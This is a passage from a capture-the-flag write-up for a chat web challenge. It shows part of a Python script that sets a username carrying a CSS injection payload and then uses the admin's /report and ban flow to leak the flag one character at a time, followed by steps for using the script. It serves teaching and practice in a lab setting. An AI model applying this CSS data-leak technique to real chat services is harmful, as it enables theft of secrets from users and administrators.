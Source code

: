 ```python
    if r.status_code == 200:
        print("[+] Sanity working!")
    else:
        print("[-] Sanity failed!")
        sys.exit()

    # sending name change
    params = {
            'name': 'nill2',
            'msg': '/name ' + name
            }

    r = s2.get(url + "send", params=params)
    if r.status_code == 200:
        print("[+] name changed")
    else:
        print("[-] name didnt change")
        sys.exit()

    raw_input("Hit enter when you have done /report")

    # Triggering admin with dog talk
    params = {
            'name': name,
            'msg': 'dog'
            }

    r = s2.get(url + "send", params=params)

    found_flag += raw_input("Enter new found flag character: ")[0]
```   

To use the script  

- We will open browser and terminal side by side then run script in terminal.
- Script will check if website is reachable. Then it will send a name change request with our crafted css injection payload. Then it will ask you to `/report` in the browser.
- Once you `/report` and admin is in the room, hit enter in terminal to resume the script.
- Now script will send a `dog` msg by the user whose name changed with css payload.
- User will get banned and you will see a leaked flag character in the browser.
- Enter new found flag character in terminal.   

Repeat the process to get the whole flag as below.  

![leaking flag](../ctfs/gctf18/web/cat_chat-210/leaking_flag.png)  
